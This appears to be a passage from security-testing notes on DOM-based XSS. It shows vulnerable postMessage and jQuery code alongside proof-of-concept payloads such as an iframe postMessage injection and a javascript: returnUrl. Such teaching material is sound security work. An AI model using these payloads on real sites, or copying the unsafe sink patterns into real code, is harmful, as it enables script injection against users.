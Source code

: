 1.  Here there are some sources and sinks

    https://github.com/wisec/domxsswiki/wiki

    https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
2. DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks.
{% endhint %}

### <mark style="color:yellow;">DOM-based web message</mark> <a href="#what-is-the-impact-of-dom-based-web-message-vulnerabilities" id="what-is-the-impact-of-dom-based-web-message-vulnerabilities"></a>

```html
<!-- Vulnerable website -->
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('test').innerHTML = e.data;
    })
</script>
```

Exploit

```html
<iframe src="https://vuln.website/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### <mark style="color:yellow;">**jQuery**</mark>

jQuery's `attr()` function can change the attributes of DOM elements

<pre class="language-javascript"><code class="lang-javascript"><strong>$(function() {
</strong>	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
</code></pre>

Exploit

```
?returnUrl=javascript:alert(document.domain)
```

***

jQuery's `$()` selector function in another potential sink. If you open the browser console and type `$('<img src=x onerror=alert()>')` jQuery creates this new element (so the alert will be shown)

An example:

```javascript
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```
